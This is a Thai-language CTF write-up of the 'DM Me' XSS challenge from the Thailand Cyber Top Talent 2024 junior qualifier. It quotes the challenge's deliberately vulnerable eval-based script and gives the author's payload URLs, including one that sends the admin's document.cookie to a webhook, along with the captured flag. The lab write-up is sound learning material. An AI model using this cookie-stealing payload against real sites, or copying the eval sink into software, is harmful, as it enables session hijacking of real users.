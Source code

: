```yaml
---
title: THCTT Qualifier (Junior) - DM Me
published: 2024-09-29
image: 'cover.png'
tags: ['Thailand Cyber Top Talent', 'Web Security']
category: 'CTF-Writeup'
draft: false 
language: 'th'
---
```


:::note
โจทย์ระดับ**ยาก**ของหมวดหมู่ Web Application ที่มีคน Solve ได้น้อยมากๆๆๆ
:::

ถ้าจำไม่ผิด คำอธิบายจะบอกว่า ให้รันโค้ด Javascript ให้ได้ และส่งข้อความไปยังผู้ดูแลระบบ มั้ง

ซึ่งถ้ามาแนว report แบบนี้ หนีไม่พ้น XSS แน่นอน อยู่ที่ว่าจะป้องกันดีขนาดไหน

อย่างแรกที่ผมทำก็คือ view page source เลย

จะพบโค้ดชุดนี้

```js
<script>
    // JavaScript for showing stickers based on URL parameter
    function showSticker() {
        const params = new URLSearchParams(window.location.search);
        const stickerId = params.get('id');
        if (stickerId) {
            document.getElementById('sticker-display').innerHTML = `<h3>${stickerId}</h3>`;
            // Vulnerable to XSS if 'id' contains malicious script code
            eval(stickerId);
        }
    }
</script>
```

ซึ่ง มันก็เขียนไว้เลยว่ามีช่องโหว่ บอกด้วยว่าช่องโหว่อะไร และทำยังไง

เหลือแค่ให้ exploit script มาด้วย น่าจะจบแล้วข้อนี้ แต่ไม่มีมาให้หรอก😳

แล้วผมก็ลองเช็คดูว่ามัน XSS ได้จริงป่าว ด้วยการใส่คำสั่ง Javascript ง่ายๆเข้าไป

![alt text](image.png)

โอเค แจ๋ววว

![alt text](image-1.png)

ต่อไปผมจะลองให้มัน Trigger ไปที่ webhook ที่ผมเตรียมไว้

`http://thctt24.junior.web3.local/?id=fetch(%22https://webhook.site/redacted%22)`

![alt text](image-2.png)

โอเคมาจริงง

![alt text](image-3.png)

ผมก็เลย เอาลิ้งนั้นไปส่งให้ผู้ดูแลระบบ

![alt text](image-4.png)

ที่ผมต้องเพิ่ม :3000 ต่อท้าย domain ก็คือ ใน docker ผมเปิดเป็น port 3000 ไว้

นี่่่ เราจะเห็นว่า request มาจากเครื่องผู้ดูแลระบบจริง ไม่ใช่เครื่องเรา

![alt text](image-5.png)

ในเมื่อผู้ดูแลเข้ามาในหน้านี้ได้แล้ว ยังไงก็ต้องมี Cookie แนบมาด้วยแน่นอน เลยขอส่องหน่อยละกัน

`http://thctt24.junior.web3.local:3000/?id=fetch(%22https://webhook.site/redacted/%22%2Bdocument.cookie)`

โอเค ผ่านฉลุยย

![alt text](image-6.png)

เราก็จะได้ FLAG มาแล้วว

![alt text](image-7.png)

อันนี้ FLAG จากในงานแข่งเลย

`THCTT24{840524576a4723b08d0ec38db4fb384a}`

ผมได้ Firstblood มาด้วย เจ๋งๆๆ 🩸🩸🩸
